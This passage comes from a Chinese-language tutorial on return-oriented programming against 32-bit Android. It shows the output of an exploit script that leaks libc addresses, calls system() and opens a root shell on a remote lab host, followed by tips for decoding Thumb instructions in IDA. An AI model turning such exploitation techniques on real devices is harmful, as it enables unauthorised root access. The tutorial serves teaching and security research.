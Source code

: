 
执行exp的结果如下：

```
$ python level9.py 
[+] Opening connection to 30.10.20.253 on port 10001: Done
write_addr=0xb6f27280
r0=0xb6f469b4
system_addr=0xb6f2c3a5
[*] Switching to interactive mode
$ /system/bin/id
uid=0(root) gid=0(root) context=u:r:shell:s0

```

0x05 Android ROP调试技巧
====================

* * *

因为gdb对thumb指令的解析并不好，所以我还是推荐用ida来进行调试。如果你还不会用ida，可以先看一下我之前写的关于ida调试的文章：

```
安卓动态调试七种武器之孔雀翎– Ida pro 
http://drops.wooyun.org/tips/6840

```

除此之外，还有个很重要的技巧就是如何让ida正确的解析指令。ida在很多时候并不知道需要解析的指令是thumb还是arm，有时候甚至都不知道是啥内容。

比如图中是libc.so中system的代码：

![p9](http://drops.javaweb.org/uploads/images/2514446fed535fca291cf068ec0b35bf437faebc.jpg)

这段代码其实是thumb指令，但是我们怎么样才能让ida解析正确呢？方法就是用鼠标选中`0xB6EE03A4`，然后按`alt+g`键，然后将`value`改成`0x1`。这样的话，ida就会按照thumb指令来解析这段数据了。

![p10](http://drops.javaweb.org/uploads/images/49053abb1e06d2a07c7167857c51f333ffff2adf.jpg)

我们随后选中那块数据然后按c键，就可以看到指令被正确的解析了。

![p11](http://drops.javaweb.org/uploads/images/a371171b7affdef63f667f5d7ae5fbb52bb56413.jpg)

0x06 总结
=======

* * *

我们这篇文章介绍了32位android的ROP。在下一篇中我会继续带来64位arm和iOS上ROP的利用技巧，欢迎大家继续学习。另外文中涉及代码可在我的github下载:

[https://github.com/zhengmin1989/ROP_STEP_BY_STEP](https://github.com/zhengmin1989/ROP_STEP_BY_STEP)